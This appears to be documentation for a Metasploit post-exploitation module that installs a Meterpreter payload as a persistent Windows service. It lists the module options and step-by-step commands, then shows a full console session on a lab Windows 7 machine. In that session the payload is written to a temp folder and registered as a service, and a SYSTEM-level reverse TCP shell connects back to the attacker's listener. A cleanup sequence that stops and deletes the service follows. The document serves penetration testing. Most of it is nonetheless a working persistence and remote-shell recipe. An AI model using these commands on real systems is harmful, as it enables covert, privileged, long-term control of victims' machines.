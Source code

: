## Overview

This Module will generate and upload an executable to a remote host, next will make it a persistent service.
It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.

## Options

 **REMOTE_EXE_NAME**
 The remote victim name. Random string as default.
 **REMOTE_EXE_PATH**
The remote victim exe path to run. Use temp directory as default.
 **RETRY_TIME**
The retry time that shell connect failed. 5 seconds as default.
 **SERVICE_DESCRIPTION**
The description of service. Random string as default.
 **SERVICE_NAME**
The name of service. Random string as default.

## Verification Steps

1. get session on target
2. `use exploit/windows/local/persistence_service`
3. `set payload <payload>`
4. `set lport <lport>`
5. `set lhost <lhost>`
6. `exploit`

## Usage

### Windows 7 sp1 x64

```
msf5 exploit(windows/local/persistence_service) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: test-PC\test
meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/local/persistence_service) > use exploit/windows/local/persistence_service
msf5 exploit(windows/local/persistence_service) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/persistence_service) > set lport 2333
lport => 2333
msf5 exploit(windows/local/persistence_service) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(windows/local/persistence_service) > set session 1
session => 1
msf5 exploit(windows/local/persistence_service) > exploit

[*] Started reverse TCP handler on 192.168.56.1:2333
[*] Running module against TEST-PC

[+] Meterpreter service exe written to C:\Users\test\AppData\Local\Temp\NVNvCyn.exe
[*] Creating service NePaGwA
[*] Cleanup Meterpreter RC File: /Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc
[*] Sending stage (179779 bytes) to 192.168.56.101
[*] Meterpreter session 4 opened (192.168.56.1:2333 -> 192.168.56.101:52781) at 2018-10-22 17:56:21 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 4...
```

**Clean it**

```
msf5 exploit(windows/local/persistence_service) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > resource /Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc
[*] Processing /Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc for ERB directives.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> execute -H -f sc.exe -a "stop NePaGwA"
Process 6516 created.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> execute -H -f sc.exe -a "delete NePaGwA"
Process 6624 created.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> execute -H -i -f taskkill.exe -a "/f /im NVNvCyn.exe"
Process 5636 created.
Channel 23 created.
SUCCESS: The process "NVNvCyn.exe" with PID 5180 has been terminated.
SUCCESS: The process "NVNvCyn.exe" with PID 4828 has been terminated.
SUCCESS: The process "NVNvCyn.exe" with PID 5728 has been terminated.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> rm C:\\Users\\test\\AppData\\Local\\Temp\\NVNvCyn.exe
meterpreter > 
```
